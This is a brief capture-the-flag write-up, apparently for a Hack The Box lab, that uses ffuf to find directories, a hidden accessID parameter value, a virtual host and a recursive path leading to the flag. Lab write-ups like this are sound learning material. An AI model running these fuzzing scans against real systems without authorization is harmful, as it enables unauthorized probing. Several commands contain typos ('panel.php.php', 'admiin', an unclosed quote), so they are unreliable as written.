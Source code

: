 Conduct a web directory fuzzing attack

`ffuf -w <path to wordlist common.txt> -u http://<target-IP>:<port>/FUZZ`

Add important directory to fuzz, such as admin and specify files.

`ffuf -w <path to wordlist common.txt> -u http://<target-IP>:<port>/admin/FUZZ -e .php,.html,.txt`

Follow successful results such as [Status: 200], in this case panel.php. The web page shows accessID needs to be set correct. 

First run we notice many irrelevant files with the size of 58, we can filter those out with -fs 58.

`ffuf -w <path to wordlist common.txt> -u http://<target-IP>:<port>/admin/panel.php.php?accessID=FUZZ -fs 58`

We reveal the getaccess, accessID. 
we can not curl for the contents using 

`curl <target-ip>:<port>/admiin/panel.php?accessID=getaccess`

This command reveals to head over to fuzzing_fun.htb, which we can curl to see its contents

curl fuzzing_fun.htb, reveals to use the godeep directory on the Vhost

this can be executed using ffuf

`ffuf -w <path to wordlist common.txt> -u http://<target-IP>:<port> -H 'Host: FUZZ.fuzzing_fun.htb -fc 403`

This will reveal the vhost named hidden. 

we can now begin a recursion on the full path to find the flag. 

`ffuf -w <path to wordlist common.txt> -u http://hidden.fuzzing_fun.htb:<port>/godeep/FUZZ -recursion -fc 403 -v `

Allowing the recurssion to complete will reveal: http://hidden.fuzzing_fun.htb:33315/godeep/stoneedge/bbclone/typo3/index.php which houses the flag. 